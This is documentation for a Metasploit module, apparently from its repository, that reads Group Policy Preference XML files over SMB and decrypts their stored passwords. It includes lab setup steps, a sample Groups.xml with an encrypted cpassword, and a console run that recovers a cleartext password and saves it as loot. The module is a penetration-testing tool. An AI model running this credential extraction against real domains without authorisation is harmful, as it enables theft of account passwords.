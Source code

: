 ## Vulnerable Application

This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy
Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsoft's public AES
key. This module has been tested successfully on a Win2k8 R2 Domain Controller.

### Test Environment

This vulnerability was patched in 2014 but Group Policy Preference files can still be found in modern environments. Because of that it is
necessary to have a means to test this vulnerability in a contrived way.

Starting from a Windows Server that has been configured as an Active Directory Domain Controller:
1. Navigate to: `%SystemRoot%\SYSVOL\sysvol\$domain\Policies` where `$domain` is the name of the domain.
1. Create a subfolder. These folders typically use UUIDs within braces (e.g. `{31B2F340-016D-11D2-945F-00C04FB984F9}`) but the name does not
   matter for testing purposes.
1. In the new a new file (and the necessary parent folders) `MACHINE\Preferences\Groups\Groups.xml`.
1. Place the contents below in the new `Groups.xml` file.

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="SuperSecretBackdoor" image="0" changed="2013-04-25 18:36:07" uid="{B5EDB865-34F5-4BD7-9C59-3AEB1C7A68C3}">
		<Properties action="C" fullName="" description="" cpassword="VBQUNbDhuVti3/GHTGHPvcno2vH3y8e8m1qALVO1H3T0rdkr2rub1smfTtqRBRI3" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="SuperSecretBackdoor"/>
	</User>
</Groups>
```

This example XML data was taken from the unit test.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start msfconsole
1. Do: `use auxiliary/scanner/smb/smb_enum_gpp`
1. Do: `set RHOSTS ...`
1. Do: `set SMBUser ...`
1. Do: `set SMBPass ...`
1. Do: `run`

### Windows Server 2019 (Test Setup)

The following example use the contrived setup from the "Test Environment" section.

```
msf auxiliary(scanner/smb/smb_enum_gpp) > use auxiliary/scanner/smb/smb_enum_gpp 
msf auxiliary(scanner/smb/smb_enum_gpp) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(scanner/smb/smb_enum_gpp) > set SMBUSER smcintyre
SMBUSER => smcintyre
msf auxiliary(scanner/smb/smb_enum_gpp) > set SMBPass Password1
SMBPass => Password1
msf auxiliary(scanner/smb/smb_enum_gpp) > run

[*] 192.168.159.10:445    - Connecting to the server...
[*] 192.168.159.10:445    - Mounting the remote share \\192.168.159.10\SYSVOL'...
[+] 192.168.159.10:445    - Found Policy Share on 192.168.159.10
[*] 192.168.159.10:445    - Parsing file: \\192.168.159.10\SYSVOL\msflab.local\Policies\fake\MACHINE\Preferences\Groups\Groups.xml
[+] 192.168.159.10:445    - Group Policy Credential Info
============================

 Name               Value
 ----               -----
 TYPE               Groups.xml
 USERNAME           SuperSecretBackdoor
 PASSWORD           Super!!!Password
 DOMAIN CONTROLLER  192.168.159.10
 DOMAIN             msflab.local
 CHANGED            2013-04-25 18:36:07
 NEVER_EXPIRES?     1
 DISABLED           0

[+] 192.168.159.10:445    - XML file saved to: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_microsoft.window_053830.txt
[+] 192.168.159.10:445    - Groups.xml saved as: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_smb.shares.file_279441.xml
[*] 192.168.159.10:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_enum_gpp) >
```
